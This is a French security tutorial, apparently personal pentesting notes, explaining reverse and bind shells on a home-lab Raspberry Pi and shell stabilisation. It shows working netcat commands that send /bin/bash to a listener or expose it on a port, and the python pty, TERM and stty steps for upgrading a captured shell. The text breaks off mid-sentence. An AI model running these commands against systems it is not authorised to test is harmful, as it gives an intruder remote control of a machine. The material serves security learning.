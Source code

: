 
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**Netcat** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principale qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**Socat** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (`/bin/bash` sur linux et `cmd.exe` sur windows). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

Notre machine

```shell
user@ip:~$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Mise en place du listener**.

Machine cible

```shell
root@raspberrypi:/# ncat 192.168.1.100 443 -e /bin/bash
```
**Execution du script**.

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```
**Execution de commande sur la machine cible**.

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

Machine cible

```shell
root@raspberrypi:/home/thomas# ncat -vnlp 4433 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
**Lancement du serveur netcat**.

Notre machine

```shell
user@ip:~$ nc 192.168.1.104 4433
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```
**Connection au port**.

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell **plus beau** mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du CTRL + C.

```shell
user@ip:~$ nc 192.168.1.104 4433
whoami
root

python -c 'import pty;pty.spawn("/bin/bash")'
root@raspberrypi:/home/user#
```

#### 2- Commande de terme

Pour acceder aux **commandes de termes** comme `clear`, on doit executer la commande **`export TERM=xterm`**.

```shell
root@raspberrypi:/home/user# export TERM=xterm
export TERM=xterm
```

#### 3- Acces aux touches

Pour retirer les problèmes principaux, on va d'abord mettre notre **shell en arrière plan** en utilisant ***CTRL + Z***.
**Une fois dans notre terminal** on va executer la commande **`stty raw -echo; fg`** qui va **désactiver notre propre echo** et donc **donner accès aux touches et à l'auto-completion** puis remettre en premier plan notre shell.

```shell
root@raspberrypi:/home/user# ^Z
[1]+  Stopped                 nc 192.168.1.104 4433
user@ip:~$ stty raw -echo; fg
nc 192.168.1.104 4433

root@raspberrypi:/home/user# ^C
root@raspberrypi:/home/user#
```


### Taille du terminal

Pour regler la taille du terminal on va utiliser **`stty`**.

D'abord i